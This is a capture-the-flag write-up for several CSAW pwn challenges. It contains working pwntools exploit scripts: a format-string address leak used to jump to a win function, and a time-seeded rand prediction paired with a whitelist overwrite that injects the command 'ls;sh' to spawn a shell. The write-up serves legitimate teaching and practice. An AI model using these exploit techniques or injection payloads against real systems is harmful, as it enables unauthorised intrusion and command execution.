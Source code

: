 
## diving-into-null

in this challenge, most of the commands were not available to read the flag so we send bash script to read `.flag`
`while read line; do echo "$line"; done < .flag`
this gives the flag
`csawctf{penguins_are_just_birds_with_tuxedos}`

## mini golfing series

there's a format string exploit which allows us to leak the address which we can use to calculate the base address of the elf. Using this we get the address of `win` on runtime and simply have to send it to the program as hex

```
#!/usr/bin/env python3

from pwn import *

exe = ELF("./golf_patched")

context.binary = exe
context.terminal = ['tmux', 'splitw', '-h']

def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.DEBUG:
            gdb.attach(r)
    else:
        r = remote("golfing.ctf.csaw.io", 9999)

    return r


def main():
    
    r = conn()
            
    # gdb.attach(r, '''
    #         gef config context.nb_lines_stack 167
    #         b *main+270
    #         ''')

    r.sendlineafter(b'name? ', b'%177$llx')

    r.recvuntil(b'hello: ')
    
    exe.address = int(r.recvline().strip(), 16) - 0x1223
    
    r.sendlineafter(b'Alright! Tell me the address you want to aim at!: ', hex(exe.symbols['win']).encode())
        
    r.interactive()

if __name__ == "__main__":
    main()
```

## Nix philosophies

in the binary decompilation we notice

```
#include <iostream>
#include <fstream>
#include <string>
#include <cstring>

int main(int argc, const char **argv, const char **envp) {
    std::string input;
    char buf[32];
    int total = 0;

    // Prompt for input
    std::cout << "Tell me what you know about *nix philosophies: ";
    std::cin >> input;

    // Calculate sum of characters in the input string (ignoring the first character)
    for (size_t i = 1; i < input.size(); ++i) {
        total += input[i];
    }

    // Read a fixed amount from some file or buffer using the total value offset
    read(total - 1603, buf, 0x20);

    // Check if the input matches a specific philosophy
    if (!strcmp("make every program a filter\n", buf)) {
        // Try to open "flag.txt"
        std::ifstream flagFile("flag.txt");
        
        if (flagFile.good()) {
            std::cout << "\nWelcome to pwning ^_^" << std::endl;
            system("/bin/cat flag.txt");
        } else {
            std::cout << "\nflag.txt: No such file or directory" << std::endl;
            std::cout << "If you're running this locally, then running it on the remote server should give you the flag!" << std::endl;
        }
    } else {
        std::cout << "You still lack knowledge about *nix, sorry" << std::endl;
    }

    return 0;
}
```

the binary takes our in put some variable `input` and stores the sum of all ascii value of the characters in out input in `total`
to get the flag the binary compares `buf` with  `make every program a filter\n`
to access buf, we need to use `read(total - 1603, buf, 0x20);` . We have to make total = 1603 for read to take our input from stdin.
this is achieved with the payload `zzzzzzzzzzzzzFE` in input. After that we  just enter `make every program a filter\n` in the read to get flag
`csawctf{-3v3ry7h1ng_15_4_f1l3}`

## VIP BLACKLIST

in this binary we get options to perform
- ls
- clear
- exit
whenever the menu gets printed it expects us to put in one of the commands or the token it randomly generates.
if we guess the generated token correctly, we get to put one more command `queue` in `allowCopy` as long as we don't already have `queue` in the command whitelist.

```
v1 = time(0LL); 
srand(v1); 
for ( i = 0LL; i <= 9; ++i ) 
	v4[i] = rand(); 
result = a1; *a1 = v4;
```

we can easily generate the same token  because of using time(0) as the seed

after we get in `allowCopy()`

```
 v5 = read(0, buf, 0x20uLL);
  if ( v5 < 0 )
  {
    perror("Error reading from stdin");
    exit(1);
  }
  buf[strcspn(buf, "\n")] = 0;
  for ( i = 0; i < strlen("queue") + 1; ++i )
  {
    if ( buf[i] != s2[i] )
      kickOut();
  }
```

as long as our input in `local_48` starts with queue we can pass this check
```
  strcpy(v6, "clear");
  v7 = 'tixe';
  v8 = 0;
  v9 = 'sl';
  for ( j = 3; j >= 0; --j )
    strcpy(&whitelist[6 * j], &whitelist[6 * j - 6]);
  for ( k = 0; k < v5 - 1; ++k )
    whitelist[k] = buf[k];
  if ( !(unsigned int)safety(v6) )
    kickOut();
```
in this portion we arrange the whitelist global variable in the order:
- queue
- clear
- exit
- ls
after that we call `safety()` to check  the order
now this can be bypassed too as long we maintain this order and put or choice of command after that in proper alignment

like `b'queue\x00clear\x00exit\x00\x00ls;sh\x00'`

back inside main
```
for ( i = 0; i <= 3; ++i )
    {
      if ( !strcmp(s, &whitelist[6 * i]) )
      {
        v2 = 1;
        break;
      }
    }
```

-  `whitelist[0]` : `queue\x00`
- `whitelist[6]` : `clear\x00`
- `whitelist[12]` : `exit\x00\x00`
- `whitellist[18]` : ` ls;sh\x00
now we send `ls;sh` as the next command and then get flag

`csawctf{4r3_y0u_0n_7h3_b14ckl157?}`

```
#!/usr/bin/env python3

from pwn import *
from ctypes import CDLL

exe = ELF("./vip_blacklist")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")

libc_funcs = CDLL(libc.path)

context.binary = exe
context.terminal = ['tmux', 'splitw', '-h']

def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.DEBUG:
            gdb.attach(r)
    else:
        r = remote("vip-blacklist.ctf.csaw.io", 9999)

    return r


def main():
    r = conn()
    # gdb.attach(r, '''
    #            b *allowCopy+0x195
    #            b *allowCopy+0x1c9
    #            b *safety+0x24
    #            b *safety+0xcd
    #            c
    #            ''')
    
    libc_funcs.srand(libc_funcs.time(None))
    
    output = b''
    for _ in range(10) : output += (libc_funcs.rand() & 0xff).to_bytes(1, 'little')

    
    r.sendline(output)
    
    
    r.sendafter(b'enter.', b'queue\x00clear\x00exit\x00\x00ls;sh\x00')

    r.interactive()


if __name__ == "__main__":
    main()
```
